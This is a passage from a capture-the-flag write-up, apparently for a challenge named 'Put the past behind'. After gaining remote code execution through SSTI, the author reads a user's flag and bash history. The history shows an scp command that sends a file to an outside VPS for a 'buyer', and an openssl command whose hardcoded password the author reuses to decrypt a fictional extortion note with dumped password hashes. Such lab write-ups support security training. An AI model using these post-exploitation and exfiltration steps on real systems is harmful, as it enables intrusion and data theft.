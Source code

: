 We have a RCE as dave! Let's checkout his home folder (every command from now on are executed via the RCE)

```plain
$ ls /home/dave
flag.txt randomfile.txt.enc

$ cat /home/dave/flag.txt
Hero{pl41nt3xt_p4ssw0rd_4nd_s5t1_b1t_much_41nt_1t?}
```

PS: You might have to refresh the page sometimes if the SSTI output is hanging.

#### Flag 4

For this final step, the goal is obviously to decipher the `randomfile.txt.enc` file. It contains some random data, and the name is hinting towards an encrypted file.

The challenge is called "*Put the past behind*". If only we could see past commands, and maybe the command used to encrypt the file...

Oh wait...

```plain
$ cat /home/dave/.bash_history
whoami
ls
vim randomfile.txt
zip randomfile.zip randomfile.txt
vps=38.243.09.46
scp randomfile.txt dave@$vps:~/toSendToBuyer.txt
openssl aes-256-cbc -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt -out randomfile.txt.enc
ls
rm randomfile.txt randomfile.zip
```

The encryption command was:

```plain
openssl aes-256-cbc -salt -k Sup3r53cr3tP4ssw0rd -in randomfile.txt -out randomfile.txt.enc
```

We just have to decode it with the same command, but with the `-d` flag and by inverting the `-in` and `-out` parameters.

```plain
$ openssl aes-256-cbc -d -salt -k Sup3r53cr3tP4ssw0rd -in /home/dave/randomfile.txt.enc -out /home/dave/randomfile.txt
```

```plain
$ cat /home/dave/randomfile.txt
Here is a sample of the hashes I dumped from the database, in good faith.

Pay up, and I'll send you the rest. Once you have you order, we never speak again. Glad doing business with you.

louis       afba3f2f6a6124ff952cdf8fa6d639ea
samantha    b92af75ee8a69de838e1d2eefc380bfb
joey        dfa3e5ccebaabe11bbde4b7f4de5bbd4
karl        219f9ad3f2efb75afcae7fab39fcd1aa
steve       f9df3a4453f27b8bfdd39ee96aca7bac
john        3d82b3ce57d8edfe2eaba8eb8eeebb3f
michael     84cae12ee0242ae4abb1e5fbaab40952
george      e58eddfd7a8d670ef5187c05b16b95a1
sarah       fdf4f0e12e7d4cd083abb61a4b7232d9
lucas       60d2fccbc0be51dc8dcd182b0b6a806f
sylvia      e4282d7ee69cab77bb41ec0e02598bad

Hero{4_l1ttle_h1st0ry_l3ss0n_4_u}
```
